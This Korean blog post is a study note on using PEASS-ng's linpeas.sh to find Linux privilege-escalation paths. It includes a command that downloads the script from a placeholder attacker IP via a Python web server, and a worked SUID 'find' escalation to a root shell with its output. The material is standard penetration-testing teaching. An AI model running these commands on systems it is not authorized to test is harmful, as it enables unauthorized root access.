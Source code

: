 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-17 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다.

수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### **1. 스크립트 전송**
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   **공격자 PC:**
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   **대상 서버:**
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

[여기에 linpeas.sh 실행 결과 화면 스크린샷 삽입]

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### **1. 정보 수집 (linpeas.sh)**
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

[여기에 linpeas.sh가 find SUID를 발견한 결과 스크린샷 삽입]

#### **2. 분석 (GTFOBins)**
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### **3. 공격 실행 (권한 상승)**
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```
*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">
